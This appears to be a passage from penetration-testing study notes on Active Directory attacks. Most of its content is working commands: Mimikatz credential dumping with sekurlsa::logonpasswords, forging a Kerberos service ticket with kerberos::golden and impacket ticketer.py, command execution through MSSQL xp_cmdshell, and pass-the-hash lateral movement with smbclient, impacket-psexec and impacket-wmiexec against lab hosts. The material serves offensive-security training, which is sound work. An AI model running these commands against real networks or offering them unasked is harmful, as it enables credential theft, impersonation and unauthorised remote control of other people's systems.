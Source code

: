 ```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords # Looking for NTLM hash
```

To obtain the domain SID, the second piece of information we need, we can enter whoami /user to get the SID of the current user. Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain.

```bash
PS C:\Users\jeff> whoami /user # Looking for SID
---------------
User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369 # ignore this part -1105

mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
...
mimikatz # exit

# or

ticketer.py -nthash <spn nltm hash> -domain-sid <domain sid> -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator
KRB5CCNAME=administrator.ccache mssqlclient.py  -k administrator@dc.sequel.htb
> enable_xp_cmdshell
> xp_cmdshell whoami
```

We should have the ticket ready to use in memory. We can confirm this with klist, and by using the service:

```bash
PS C:\Tools> iwr -UseDefaultCredentials http://web04
```

#### Pass the Hash

First, it requires an SMB connection through the firewall (commonly port 445), and second, the Windows File and Printer Sharing feature to be enabled. These requirements are common in internal enterprise environments. This lateral movement technique also requires the admin share called ADMIN$ to be available. To establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
